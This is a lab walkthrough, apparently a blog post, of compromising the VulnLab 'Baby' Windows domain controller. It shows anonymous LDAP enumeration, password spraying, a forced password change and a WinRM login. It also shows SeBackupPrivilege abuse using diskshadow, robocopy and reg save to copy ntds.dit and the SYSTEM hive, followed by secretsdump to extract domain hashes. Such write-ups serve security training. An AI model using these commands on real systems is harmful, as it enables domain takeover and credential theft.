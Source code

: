 ```yaml
---
layout: post
title: VulnLab - Baby
date: 15-04-2025
categories: [Machines]
tags: [ldap, anonymous, SeBackupPrivilege, smbpasswd]
image: "https://images-ext-1.discordapp.net/external/iTsNgpEcu1U88J1FvpyBi4VwhZZRBo0W6Rd5ARdznbE/https/assets.vulnlab.com/baby_slide.png?format=webp&quality=lossless"
---
```


![image](https://www.notion.so/image/attachment%3Aa03294c9-05f1-41a8-8020-c8038e84c4f4%3Aimage?table=block&id=1d43d2c4-89f6-80eb-bd47-d915caa3f7e7&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)


## Scanning

```bash
➜  Baby nmap -Pn -T4 -sC -sV -p- 10.10.116.106 -oN reports/all_tcp.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-13 03:14 EAT
Nmap scan report for 10.10.116.106 (10.10.116.106)
Host is up (0.19s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-13 00:24:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-04-13T00:25:46+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2025-04-11T23:48:27
|_Not valid after:  2025-10-11T23:48:27
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   DNS_Tree_Name: baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-04-13T00:25:06+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
60933/tcp open  msrpc         Microsoft Windows RPC
60948/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3s, deviation: 0s, median: 3s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-13T00:25:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 670.17 seconds

```

## Enumeration

### LDAP

**Anonymous Access**

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl"
```

**Users**

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl" -D 'baby.vl' 'objectClass=user' | grep "sAMAccountName:" | cut -d' ' -f2 | tee loots/users.txt
```

![image](https://www.notion.so/image/attachment%3Aa03294c9-05f1-41a8-8020-c8038e84c4f4%3Aimage?table=block&id=1d43d2c4-89f6-80eb-bd47-d915caa3f7e7&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

Descriptions

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl" -D 'baby.vl' 'objectClass=user' | grep "description:"
```

![image](https://www.notion.so/image/attachment%3A018b74bd-511a-4fd8-8ec7-4f1f4d8095e8%3Aimage?table=block&id=1d43d2c4-89f6-8001-bec2-db7e456dd308&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

### SMB

```bash
nxc smb 10.10.116.106 -u loots/users.txt -p 'BabyStart123!' --continue-on-success
```

![image](https://www.notion.so/image/attachment%3A8128a076-a6bb-4f80-9bb2-dc3ad0369069%3Aimage?table=block&id=1d43d2c4-89f6-80df-96ae-c13d0b80c19d&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

Password Change

```bash
smbpasswd -r 10.10.116.106 -U Caroline.Robinson
```

![image](https://www.notion.so/image/attachment%3A05b5e0ca-390a-4177-93b8-e35d16df897c%3Aimage.png?table=block&id=1d43d2c4-89f6-809b-8d18-d1db8585fea6&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

![image](https://www.notion.so/image/attachment%3Adb4dad91-4b41-4c20-9be5-ddcb4e2aac1d%3Aimage.png?table=block&id=1d43d2c4-89f6-800f-ac4c-f8e2119ddd37&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

```bash
nxc smb 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!' --users
```

![image](https://www.notion.so/image/attachment%3A25f57ada-baf4-4c58-971b-ceec561bab1b%3Aimage.png?table=block&id=1d43d2c4-89f6-80b1-b9c3-e39f183bc325&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

### Bloodhound

```bash
bloodhound-python -d baby.vl  -c all -u 'Caroline.Robinson' -p 'NewSecurePass123!'  -ns 10.10.116.106 --zip
```

![image](https://www.notion.so/image/attachment%3Aabb5435f-cbb9-4545-9e89-de1e97c36b6b%3Aimage.png?table=block&id=1d43d2c4-89f6-805b-afa4-ee34d032ccef&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

First Degree Group Membership

![image](https://www.notion.so/image/attachment%3Ad0bf5e4e-f85b-4572-bf11-ea02f49caf53%3Aimage.png?table=block&id=1d43d2c4-89f6-806b-be52-c7f751f68f00&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

## Initial Access

```bash
nxc winrm 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!'
```

![image](https://www.notion.so/image/attachment%3A6d9b5578-ff7b-4256-bc6e-5cba314f6c2a%3Aimage.png?table=block&id=1d43d2c4-89f6-8083-b950-da80549d037e&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

```bash
evil-winrm -i 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!'
```

![image](https://www.notion.so/image/attachment%3A285aca5c-0905-44ce-a5f5-41b3c7d8c40a%3Aimage.png?table=block&id=1d43d2c4-89f6-80b4-8c0f-e784b08e0999&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

## PrivEsc

![image](https://www.notion.so/image/attachment%3Af467d9ad-d930-45d5-8ce4-c89e693b6d2a%3Aimage.png?table=block&id=1d43d2c4-89f6-80b8-9502-dc58a986ac98&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

vss.dsh

```bash
set context persistent nowriters
set metadata c:\programdata\cyb4x.cab
set verbose on
add volume c: alias cyb4x
create
expose %cyb4x% z:
```

![image](https://www.notion.so/image/attachment%3Af467d9ad-d930-45d5-8ce4-c89e693b6d2a%3Aimage.png?table=block&id=1d43d2c4-89f6-80b8-9502-dc58a986ac98&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

```bash
diskshadow /s vss.dsh
```

![image](attachment:9bae947d-2427-40a8-9a2d-257f5a30472c:image)

Copying

```bash
robocopy /b z:\windows\ntds . ntds.dit
```

![image](https://www.notion.so/image/attachment%3A9bae947d-2427-40a8-9a2d-257f5a30472c%3Aimage.png?table=block&id=1d43d2c4-89f6-8004-a822-cee10cea7040&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

also

```bash
reg.exe save hklm\system system
```

download

![image](https://www.notion.so/image/attachment%3A8cc23693-5ecd-4051-83ed-689ac6d3bbb1%3Aimage.png?table=block&id=1d43d2c4-89f6-8046-a959-d847c4459f2f&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

Dump secrets

```bash
secretsdump.py -system system -ntds ntds.dit local
```

![image](https://www.notion.so/image/attachment%3Ae5d49be1-1fef-495e-9b82-7569e4ed18e7%3Aimage.png?table=block&id=1d43d2c4-89f6-80f4-842a-d3321ab6e8a8&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)
